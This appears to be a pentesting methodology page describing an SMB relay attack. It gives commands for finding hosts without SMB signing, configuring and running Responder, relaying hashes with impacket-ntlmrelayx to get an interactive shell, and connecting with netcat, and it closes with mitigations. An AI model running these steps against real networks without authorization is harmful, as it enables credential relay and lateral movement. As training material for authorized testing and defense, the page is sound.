 # SMB Relay

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Requirements:

* SMB signing **must be disabled** or **not enforced** on the target
* Relay user credentials must be admin on machine for any real value.



#### Methodology:

* Identify Hosts without SMB signing
* Change `Responder` configuration before run it.
* Run `Responder` tool on the right network interface
* Set up our SMB relay



## Identify Hosts without SMB signing

```bash
nmap --script=smb2-security-mode.nse -p445 IP/24
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Change Responder conf

The settings SMB and HTTP must be off. This because we have to relay the hashes and not capture them. This port will be use by SMB relay.

```bash
sudo nano /etc/responder/Responder.conf
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Run Responder tool

```bash
sudo responder -I NETWORK_INTERFACE -dw -v
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Set up SMB relay

To set up SMB relay we will using `impacket-ntlmrelayx` tool.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

{% hint style="info" %}
The `targets.txt` file contains all computers identify in the step 1
{% endhint %}

{% code title="targets.txt" lineNumbers="true" %}
```
192.168.X.X
192.168.X.X
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### New connection auto-shell

We can set the `ntlmrelayx` to enstablish a shell when the relay can enters into a pc.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

Check the port in the output where the connection has been established,

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Use netcat to establish the connection.

```bash
nc 127.0.0.1 PORT
```



## Mitigation strategies:

* **Enable SMB Signing on all devices**
  * Pro: Completely stops the attack
  * Con: Con cause performance issues with file copies
* **Disable NTLM authentication on network**
  * Pro: Completely stops the attack&#x20;
  * Con: If kerberos stops working, Windows defaults back to NTLM
* **Account tiering**
  * Pro: Limits domain admins to specific tasks
  * Con: Enforcing the policy may be difficult
* **Local admin restrinction**
  * Pro: Can prevent a lot of lateral movement
  * Con: Potential increase in the amount of service desk tickets
